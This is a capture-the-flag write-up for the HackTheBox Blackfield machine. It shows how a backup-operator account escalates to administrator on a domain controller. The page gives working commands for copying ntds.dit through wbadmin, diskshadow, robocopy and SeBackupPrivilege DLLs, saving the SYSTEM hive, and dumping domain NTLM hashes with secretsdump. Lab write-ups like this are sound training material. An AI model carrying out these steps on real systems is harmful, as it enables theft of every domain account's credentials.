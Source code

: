
# Elevating Privilege svc_backup -> Administrator

## Enumeration
Looking at the privileges of our user we find **SeBackupPrivilege** & **SeRestoreePrivilege** which are very powerful privileges that allows the user to access directories/files that he doesn’t own or doesn’t have permission to.
> This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.

```console
*Evil-WinRM* PS C:\Users\svc_backup> whoami /priv 
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
```
The user **svc_backup** is a member of **Backup Operators Groups** and hence has the **Backup privileges** which allows him to backup and restore files on the system, read and write files on the system.

```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net user svc_backup
User name                    svc_backup
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2020 10:54:48 AM
Password expires             Never
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```
### Attack Scenario
- Grab a copy of **NTDS.dit** file, a database that stores Active Directory users credentials.
- Next, we will grab **SYSTEM hive** file which contains System boot key essential to decrypt the NTDS.dit
- Using Impacket’s secretsdump script to extract NTLM hashes of all the users in the domain from NTDS.dit

## PrivEsc Method #1 - wbadmin

For the first method, we will use **wbadmin** a Windows command line tool which enables us back up and restore operating system, volumes, files, folders, and applications.

It is not recommended to Backup and Restore the file in the same disk, so first we will first create a shadow copy of disk and backup the **ntds.dit** from the **c:\windows\ntds\ntds.dit** and store it inside SMB share **C$**

We could also achieve this by hosting our own SMB share from our machine but I preferred using SMB share **C$** of the host itself, since we don’t have an interactive session we’ll be using **-quiet** flag which wont ask us for user input to start the backup operation.

### NTDS.dit
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd \\10.10.10.192\C$\Windows\Temp
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp> mkdir CFX
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp\CFX> wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds
.dit -quiet
```
Now that we have obtained **WindowsImageBackup** of **NTDS.dit** file inside the SMB share, we’ll recovery the file inside our directory **C:\Users\svc_backup\Documents**

For recovering the backup we need the backup version:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin get versions
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 10/5/2020 3:27 PM
Backup location: Network Share labeled \\10.10.10.192\C$\Windows\Temp\CFX\
Version identifier: 10/05/2020-22:27
Can recover: Volume(s), File(s)

*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin start recovery -version:10/05/2020-22:27 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Documents -notrestoreacl -quiet

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         10/5/2020  3:27 PM       18874368 ntds.dit
```
### SYSTEM hive
To extract the NTLM hashes from ntds.dit file, we’ll be needing SYSTEM hive file which contains the System boot key essential to decrypt the NTDS.dit.

Grabbing **SYSTEM**:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\SYSTEM
```
### Extracting NTLM hashes
We got both the files required to extract NTLM hashes of Domain accounts using Impacket’s secretsdump.py:
```console
┌─[✗]─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

## PrivEsc Method #2 - diskshadow
In second method, the strategy would be the same to grab **NTDS.dit**, but instead we’ll use a different windows tool named **diskshadow**.

> Diskshadow.exe is a tool that exposes the functionality offered by the volume shadow copy Service (VSS). This is a built-in function of Windows that can help us create a copy of a drive that is currently in use. 

First, we will be creating a **Distributed Shell File** or a **dsh** file which will consist of all the commands that are required by the diskshadow to run and create a full copy of our Windows Drive which we then can use to extract the **ntds.dit** file from. In this file, we are instructing the **diskshadow** to create a copy of the **C:** Drive into a **w:** Drive with **mydrive** as its alias. The Drive Alias and Character can be anything you want. After creating this dsh file, we need to use the **unix2dos** to convert the encoding and spacing of the dsh file to the one that is compatible with the Windows Machine.
```console
set context persistent nowriters
add volume c: alias mydrive
create
expose %mydrive% w:
```
In local machine:
```console
┌─[kimkhuongduy@drgon]─[~/Documents/hackthebox/Blackfield]
└──╼ $unix2dos shadow.dsh
```
 *Usually upload to folder C:\Windows\Temp*
 
Then execute the diskshadow and using the script file as its inputs.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s shadowscript.dsh
```

Now, to perform the task of copying the data of the NTDS.dit file, there are two ways to do it:
- robocopy
- Copy-FileSeBackupPrivilege

### robocopy

I’ll now copy the file using **robocopy** with **/B** flag to ignore file permissions and use a new directory new_ntds to save the file:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> robocopy /B w:\Windows\ntds .\new_ntds ntds.dit
```
### Copy-FileSeBackupPrivilege
An alternate way to copy files from the shadow drive **w:\** is by uploading **SeBackupPrivilegeUtils.dll** and **SeBackupPrivilegeCmdLets.dll** from [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug) repo and importing them to our session.
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeUtils.dll
```
Importing dll’s:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Now we can use **Copy-FileSeBackupPrivilege** to copy files from our Shadow drive to the desired directory:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege w:\Windows\NTDS\ntds.dit C:\Users\svc_backup\Documents\ntds.dit
```
> NOTE: In the case of a DC, the privilege only allows you to make **BACKUPS NOT COPIES**. In a standalone system, we can make copies of the files (SAM and SYSTEM hive). In the case of DC, the method differs as now we need to make backups of the **NTDS.dit** and **SYSTEM** files to extract the password hash of users.

